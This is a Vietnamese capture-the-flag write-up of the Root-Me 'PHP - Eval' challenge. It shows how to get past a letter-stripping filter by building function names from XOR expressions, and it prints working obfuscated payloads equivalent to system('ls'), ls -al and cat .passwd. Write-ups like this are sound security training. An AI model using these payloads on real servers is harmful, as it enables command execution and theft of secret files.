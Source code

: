```diff
@@ Web-Server Challenge
```



## PHP - Eval [40 Points]

* Challenge cung cấp cho ta source code như sau

  ![4](F:\VCS_practice\rootme\img\4.jpg)

* Từ source code ta biết mục tiêu là bypass filter (lọc các ký tự alphabet) để thực thi các lệnh command line bằng hàm Eval. Vì các ký tự alphabet đều bị lọc nên ta thử tìm kiếm cách bypass và đọc được blog sau [đây](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) 

  ![4-5](F:\VCS_practice\rootme\img\4-5.jpg)

* Cụ thể, ta có thể dùng phép toán XOR để tạo ra các ký tự như mong muốn (ví dụ  ... ). Ta tự viết một script để có thể tự động chuyển chuỗi của ta thành payload có thể bypass

  ![4-1](F:\VCS_practice\rootme\img\4-1.jpg)

* Với payload ```('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-').'('.('['^'|').('@'^',').('^'^'-').('['^'|').')'``` (Tương đương với lệnh system('ls'). Kết quả ta thấy trang web chỉ in ra mà không thực thi hàm như mong muốn.

  ![4-2](F:\VCS_practice\rootme\img\4-2.jpg)

* Tới đây thì em không tìm được nguyên nhân mặc dù đã dựng lại môi trường tương tự. Thử search google thì thấy gợi ý về việc thay đổi cách gọi hàm. Cụ thể ta phải đổi cách gọi hàm thành dạng ```(function-name)(params)``` ví dụ (system)(ls) hoặc (system)('ls'). Điều này sẽ giúp PHP coi đoạn input đó là lệnh gọi hàm .. (maybe)

* Việc của bây giờ là đi tìm file chứa flag, thử với ```ls -al``` ta có

  - Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^',').('^'^'-').('~'^'^').'-'.('!'^'@').('@'^','))``` Tương đương với ```(system)(ls -al)```

  - Kết quả

    ![4-3](F:\VCS_practice\rootme\img\4-3.jpg)

* ```cat .passwd``` ta được kết quả

  * Payload ```(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^'#').('!'^'@').('^'^'*').('~'^'^').'.'.('^'^'.').('!'^'@').('^'^'-').('^'^'-').('^'^')').('@'^'$'))``` tương đương với ```(system)(cat .passwd)```

  * Kết quả

    ![4-4](F:\VCS_practice\rootme\img\4-4.jpg)